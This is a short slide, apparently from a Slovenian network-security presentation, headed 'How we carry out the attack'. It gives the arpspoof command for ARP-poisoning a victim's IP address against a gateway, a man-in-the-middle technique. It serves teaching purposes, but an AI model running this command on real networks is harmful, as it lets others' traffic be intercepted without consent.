

# Kako izvedemo napad
Zaženemo arpspoof v svoji konzoli
Arpspoof –t [žrtvin ip] 192.168.1.1